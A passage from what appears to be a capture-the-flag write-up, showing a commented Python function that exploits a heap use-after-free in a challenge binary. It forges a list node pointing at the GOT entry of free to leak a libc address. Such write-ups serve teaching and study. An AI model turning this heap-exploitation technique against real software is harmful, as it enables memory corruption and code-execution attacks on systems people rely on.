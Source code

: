 This is implemented in the following function, which is commented with some of the details.
```
def leak_libc():
    # this sentence is the same size as a list node
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    # delete the sentence
    search('a' * 12)
    p.sendline('y')

    # the node for this sentence gets put in the previous sentence's spot.
    # note we made sure this doesn't reuse the chunk that was just freed by
    # making it 64 bytes
    index_sentence('d' * 64)

    # free the first sentence again so we can allocate something on top of it.
    # this will work because 1) the sentence no longer starts with a null byte
    # (in fact, it should be clear that it starts a pointer to 64 d's), and 2)
    # the location where our original string contained `b` is guaranteed to be
    # zero. this is because after the original sentence was zeroed out, nothing
    # was allocated at offset 12, which is just padding in the structure. if
    # we had made the first word in the string 16 bytes instead of 12, then that
    # would put 'b' at a location where it would not be guaranteed to be zero.
    search('\x00')
    p.sendline('y')

    # make our fake node
    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    # this sentence gets allocated on top of the previous sentence's node.
    # we can thus control the sentence pointer of that node and leak memory.
    index_sentence(node)

    # this simply receives all input from the binary and discards it, which
    # makes parsing out the leaked address easier below.
    p.clean()

    # leak the libc address
    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak
```

One important note is that the choice of GOT address (`0x602028` in this case) is important. I originally used a different GOT address, whose corresponding function just happened to have a least significant byte of zero. This means that the corresponding `sentence` is an empty string. This is entirely dependent on your libc.
